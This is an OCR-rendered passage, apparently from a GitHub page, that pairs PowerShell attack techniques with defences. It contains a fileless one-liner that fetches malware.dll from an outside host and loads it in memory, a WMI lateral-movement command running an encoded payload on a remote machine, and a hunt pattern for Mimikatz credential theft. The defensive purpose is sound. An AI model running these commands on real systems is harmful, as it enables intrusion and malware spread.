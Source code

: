 #### **Defense**  
- **Enable Tamper Protection**:  
  ```powershell  
  Set-MpPreference -EnableTamperProtection Enabled  
  ```  
- **Restrict PowerShell Language Mode**:  
  ```powershell  
  $ExecutionContext.SessionState.LanguageMode = "ConstrainedLanguage"  
  ```  

---

#### **4. Fileless Execution (Reflective DLL)**  
```powershell  
# Load malicious DLL from http://10.0.0.5/malware.dll  
$b=(Invoke-WebRequest -Uri http://10.0.0.5/malware.dll -UseBasicParsing).Content;[System.Reflection.Assembly]::Load($b).EntryPoint.Invoke($null,$null)  
```  
- **Purpose**: Executes payloads directly in memory.  

#### **Defense**  
- **Block PowerShell Web Requests**:  
  ```powershell  
  New-NetFirewallRule -DisplayName "Block PS Web" -Direction Outbound -Action Block -Protocol TCP -RemotePort 80,443 -Program "powershell.exe"  
  ```  
- **Enable AMSI**:  
  ```powershell  
  Set-MpPreference -DisableScriptScanning $false  
  ```  

---

#### **5. Lateral Movement (WMI)**  
```powershell  
# Execute malware on 192.168.1.100  
Invoke-WmiMethod -Class Win32_Process -ComputerName 192.168.1.100 -Name Create -ArgumentList "cmd /c powershell -e JABjAGwAaQBlAG4AdAA..."  
```  
- **Purpose**: Spreads malware to other systems.  

#### **Defense**  
- **Disable WMI**:  
  ```powershell  
  Stop-Service Winmgmt; Set-Service Winmgmt -StartupType Disabled  
  ```  
- **Block WMI Traffic**:  
  ```powershell  
  Set-NetFirewallRule -DisplayGroup "Windows Management Instrumentation (WMI)" -Enabled False -Action Block  
  ```  

---

### **Defensive PowerShell Commands**  
#### **1. Hunt Mimikatz in Memory**  
```powershell  
# Detect Mimikatz process arguments  
Get-WinEvent -LogName Security -FilterXPath '*[System[EventID=4688]]' | Where-Object { $_.Message -match "sekurlsa::logonpasswords" }  
```  
